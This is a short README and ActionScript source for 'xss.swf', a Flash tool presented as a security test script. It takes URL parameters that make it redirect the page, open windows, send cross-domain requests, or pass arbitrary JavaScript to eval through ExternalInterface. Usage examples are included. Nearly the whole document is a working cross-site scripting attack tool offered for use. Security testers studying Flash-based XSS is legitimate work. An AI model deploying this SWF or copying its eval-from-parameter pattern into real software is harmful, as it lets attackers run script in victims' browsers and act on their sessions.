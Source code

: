 xss.swf
=======

a tiny tool for swf hacking, just browse it:)

param&value:
a(action) - c(cmd)
-----------------
1. location to url: xss.swf?a=location&c=http://www.google.com/
2. open url to new window: xss.swf?a=open&c=http://www.google.com/
3. http request to url: xss.swf?a=get&c=http://www.google.com/
4. eval js codz: xss.swf?a=eval&c=alert(document.domain)

source
-----------------
/*
evilcos@gmail.com
2012/6/9
xss - flash security test script.
ref: fly_flash
*/

import flash.net.*;
import flash.events.SecurityErrorEvent;

var param:Object = root.loaderInfo.parameters;
var action:String = param["a"];
var cmd:String = param["c"];

function attack(action)
{
	switch (action)
	{
		case "location" :// location URL
			navigateToURL(new URLRequest(cmd),"_self");
			break;
		case "open" :// open URL
			navigateToURL(new URLRequest(cmd),"_blank");
			break;
		case "get" :// GET
			var loader:URLLoader = new URLLoader(new URLRequest(cmd));
			loader.addEventListener(Event.COMPLETE,get_complete);
			loader.addEventListener(SecurityErrorEvent.SECURITY_ERROR,get_sec_error);
			break;
		case "eval" :// execute JS
			flash.external.ExternalInterface.call("eval", cmd);
			break;
		default :
			var help:String = 'a(action) - c(cmd)\n';
			help +=  '-----------------\n';
			help +=  '1. location to url: xss.swf?a=location&c=http://www.google.com/\n';
			help +=  '2. open url to new window: xss.swf?a=open&c=http://www.google.com/\n';
			help +=  '3. http request to url: xss.swf?a=get&c=http://www.google.com/\n';
			help +=  '4. eval js codz: xss.swf?a=eval&c=alert(document.domain)\n';
			help +=  '-----------------\n';
			help +=  'by evilcos@gmail.com';
			flash.external.ExternalInterface.call("alert", help);
			break;
	}
	stop();
}

function get_complete(event:Event)
{
	flash.external.ExternalInterface.call("alert", 'corss domain request ok.');
	// __flash__toXML(alert("")) may be error.;
	//var d:String = String(event.target.data);
	//flash.external.ExternalInterface.call("alert", d);
}
function get_sec_error(event:SecurityErrorEvent)
{
	flash.external.ExternalInterface.call("alert", '[security error:]\n/crossdomain.xml\ncross domain request is not allowed.');
}

attack(action);

-----------------
by evilcos@gmail.com
